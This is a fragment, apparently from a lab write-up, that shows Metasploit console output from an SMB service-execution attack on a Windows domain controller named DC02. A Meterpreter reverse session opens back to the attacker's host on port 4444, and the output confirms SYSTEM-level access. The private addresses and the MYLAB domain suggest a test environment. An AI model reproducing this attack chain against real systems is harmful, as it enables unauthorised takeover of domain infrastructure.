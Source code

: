 ```
[+] 192.168.100.104:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.100.104
[*] Meterpreter session 1 opened (192.168.100.1:4444 -> 192.168.100.104:64442) at 2023-01-12 16:50:55 +0100

meterpreter > sysinfo
Computer        : DC02
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MYLAB
Logged On Users : 8
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

